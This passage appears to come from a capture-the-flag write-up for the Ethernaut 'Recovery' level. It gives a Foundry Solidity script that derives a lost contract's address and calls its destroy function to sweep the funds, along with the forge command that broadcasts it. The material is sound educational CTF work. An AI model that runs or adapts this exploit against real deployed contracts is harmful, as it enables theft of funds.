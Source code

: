 **Level17Solution.s.sol**

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "forge-std/Script.sol";
import "forge-std/console.sol";
import {Recovery} from "../src/Level17.sol";

contract Level17Sol is Script{
    Recovery public recovery = Recovery(0x7b9D82e39aa30ddAf4c5a9f132F4834926107Caf);
    function run() external{
        vm.startBroadcast(vm.envUint("PRIVATE_KEY"));
        address myAddress = address(vm.envAddress("MY_ADDRESS"));
        Attack attack = new Attack();
        console.log("Attack Address : ", address(attack));
        console.log("MY Balance : ", myAddress.balance);
        
        address _creator = address(recovery);

        address token = attack.exploit(_creator, payable(myAddress));
        
        console.log("Token Address : ", token);
        console.log("MY Balance : ", myAddress.balance);

        vm.stopBroadcast();
    }
}

contract Attack{
    function exploit(address _creator, address payable _myAddress) public returns(address){
        address missedToken = address(uint160(uint256(keccak256(abi.encodePacked(bytes1(0xd6), bytes1(0x94), address(_creator), bytes1(0x01))))));

        missedToken.call(abi.encodeWithSignature("destroy(address)", _myAddress));

        return missedToken;
    }
}
```

**To run the script**

```
$ source .env
$ forge script script/Level17Solution.s.sol:Level17Sol --rpc-url $RPC_URL --broadcast

```

## Magic Number

**Level18.sol**
